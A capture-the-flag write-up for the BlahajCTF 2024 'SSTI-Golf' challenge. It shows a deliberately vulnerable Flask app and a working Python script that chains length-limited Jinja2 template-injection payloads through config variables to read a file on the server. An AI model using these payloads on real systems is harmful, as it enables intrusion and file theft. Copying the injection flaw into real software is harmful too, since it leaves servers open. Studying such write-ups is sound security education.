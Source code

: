 ```yaml
---
title: SSTI-Golf
date: 2024-11-26
tags: 
- web
- author-fs
categories: BlahajCTF 2024
---
```


by {% person fs %}

> I got bored of code-golfing so I decided to come up with ssti-golfing.

This challenge was hosted on http://golf.c1.blahaj.sg/.

![](../../static/BlahajCTF2024/golf.png)

This challenge was a classic Jinja2 SSTI challenge but with a (pretty strict) length restriction challenge implemented. Looking at the source code below, it's quite short and not much to really digest.

```py
from flask import Flask, request, render_template, render_template_string
from waitress import serve
import flask
import os
import time

app = Flask(__name__)
app.secret_key=os.urandom(32)

@app.route("/")
def index():
    return render_template("index.html")

@app.route("/greet", methods=["POST"])
def greet():
    blacklist=['cycler','joiner','namespace','lipsum','globals','builtins','request']
    comment=request.form.get("comment")
    if len(comment)>65:
        return render_template("index.html",comment="That's kinda too much for a comment.")
    for i in blacklist:
        if i in comment.lower():
            print('builtins' in comment)
            return render_template("index.html",comment="I don't really like your comment. >:( ")
    return render_template_string(f"Damn. You like {comment}?")

if __name__ == "__main__":
    print(flask.__version__)
    serve(app,host="0.0.0.0",port=8000)

```

The ```render_template_string()``` function directly injects the user supplied data (the comment parameter) into the f-string before rendering it which makes this web app vulnerable to SSTI. However, we see that it checks if the length of the user supplied data exceeds 65 characters (this was a mistake in the source code since it was intended to be 40 but i had deployed this challenge with the restriction being 65 characters so this challenge became significantly more easier (unintended)) and it also blocks a few terms (the blacklist) that can make the SSTI payload extremely short.

However, we can easily get around this restriction by breaking apart our ssti payload into several pieces and storing them into flask config variables since this web app doesn't block using config variables. So you could store ```''.__class__.__mro__[1].__subclassess__``` into a config variable by running ```{{config.update({'u':'ssti-payload'})}}```. Using this method, we can store a payload to read flag.txt such as ```''.__class__.__mro[1].__subclassess__[357]("flag.txt").read()``` which is using LazyFile class to read flag.txt into the following config variables.

```py
import requests
payloads = [
    '{{config.update({"u":config.update})}}', #we are storing the config.update() method into a config variable itself to minimise characters 
    '{{config.u({"a":"".__class__.mro()})}}', #the next few lines just breaks up the payload into multiple parts and stores them into config vars
    '{{config.u({"b":"__subclasses__"})}}',
    '{{config.u({"c":config.a[1]})}}',
    '{{config.u({"d":config.c[config.b]})}}',
    '{{config.u({"e":config.d()[357]})}}',
    "{{config.e('flag.txt').read()}}" ## calling read() on the initialised LazyFile class
]

for i in payloads:
    resp=requests.post("http://golf.c1.blahaj.sg/greet",data={"comment":i})
    print(resp.content)
```

By running this, we get the flag ```blahaj{c0nf1g_v4r14bl35_f7w}```. 

